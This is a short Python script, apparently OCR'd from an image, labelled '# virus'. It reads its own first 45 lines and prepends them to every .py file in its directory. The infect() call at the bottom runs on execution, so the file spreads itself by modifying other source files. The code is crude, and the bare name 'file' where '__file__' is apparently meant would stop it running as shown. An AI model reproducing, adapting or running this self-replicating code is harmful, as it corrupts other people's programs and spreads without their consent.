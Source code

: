# virus
def print_in_file(lines, filename) :
    with open(filename, 'w') as f:
            f.writelines(lines)

def read_file(filename) :
    with open(filename, 'r') as f:
        code = f.readlines()
    return code

def insert_lines_at_start(lines,filename):
    new_lines = lines+read_file(filename)
    print_in_file(new_lines,filename)

def insert_lines_at_start_of_files_in_list(lines,list_of_files):
    for f in list_of_files :
        insert_lines_at_start(lines,f)

# ---> scan

def get_dir() :
    P=file.split('/')
    return '/'.join(P[:-1])

def get_py_files_in_current_dir():
    import os
    return [ filename for filename in os.listdir(get_dir()) if filename[-3:]==".py"]

# --->duplication

def get_virus_code() :
    return read_file(file)[:45]

# infection

def infect() :
    insert_lines_at_start_of_files_in_list( get_virus_code() , get_py_files_in_current_dir() )


infect()
